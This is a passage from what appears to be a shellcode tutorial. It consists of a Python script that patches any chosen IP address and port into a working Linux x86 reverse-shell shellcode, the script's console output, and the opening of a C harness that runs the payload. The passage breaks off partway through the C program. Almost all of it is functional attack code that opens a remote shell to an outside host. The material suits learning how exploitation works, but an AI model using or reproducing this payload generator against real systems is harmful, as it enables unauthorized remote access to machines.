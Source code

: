 Here is the code:
```python
#!/usr/bin/python3

import sys
import socket
import binascii

# The shellcode used
shellcode = '\\x89\\xe5\\x31\\xc0\\x31\\xdb\\x31\\xc9\\x31\\xd2\\x50\\x50\\x68\\x7f\\x01\\x01\\x01\\x66\\x68\\x15\\xb3\\x66\\x6a\\x02\\x66\\xb8\\x67\\x01\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc6\\x31\\xc0\\x66\\xb8\\x6a\\x01\\x89\\xf3\\x89\\xe1\\x89\\xef\\x29\\xe7\\x89\\xfa\\xcd\\x80\\x31\\xc9\\xb1\\x03\\x31\\xc0\\xb0\\x3f\\x89\\xf3\\xfe\\xc9\\xcd\\x80\\xfe\\xc1\\xe2\\xf2\\x31\\xc0\\x50\\x68\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x31\\xc9\\x31\\xd2\\xb0\\x0b\\xcd\\x80'

# Check if the ip and port are specified
if len(sys.argv) < 3:
	print('Usage: python {name} <IP> <PORT>'.format(name = sys.argv[0]))
	print('Example: python {name} 127.1.1.1 5555'.format(name = sys.argv[0]))
	exit(1)

# This part find and replace the ip address
ip = sys.argv[1].split('.')
ip_in_hex = '{:02X}{:02X}{:02X}{:02X}'.format(*map(int, ip))
shellcode = shellcode.replace('\\x7f\\x01\\x01\\x01', '\\x{0}\\x{1}\\x{2}\\x{3}'.format(
										ip_in_hex[0:2],
										ip_in_hex[2:4],
										ip_in_hex[4:6],
										ip_in_hex[6:8]
))

# This part find and replace the port number
port = hex(socket.htons(int(sys.argv[2])))
shellcode = shellcode.replace('\\x15\\xb3', '\\x{0}\\x{1}'.format(port[4:6], port[2:4]))

# Print the shellcode
print(shellcode)
```

This script will give us the following result:
```console
kali@kali:/tmp$ python3 modify_reverse_shell.py 127.1.1.7 2222

\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x68\x7F\x01\x01\x07\x66\x68\x08\xae\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x31\xc0\x66\xb8\x6a\x01\x89\xf3\x89\xe1\x89\xef\x29\xe7\x89\xfa\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80
```

In order to test the result, we can now used a C program which will execute our shellcode.

The C program can be found below:
```c
#include <stdio.h>
#include <string.h>

// the shellcode is stored here
unsigned char code[] = \
"\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x68\x7F\x01\x01\x07\x66\x68\x08\xae\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc6\x31\xc0\x66\xb8\x6a\x01\x89\xf3\x89\xe1\x89\xef\x29\xe7\x89\xfa\xcd\x80\x31\xc9\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x31\xd2\xb0\x0b\xcd\x80";

int main()
{
	// print the length of the shellcode
```
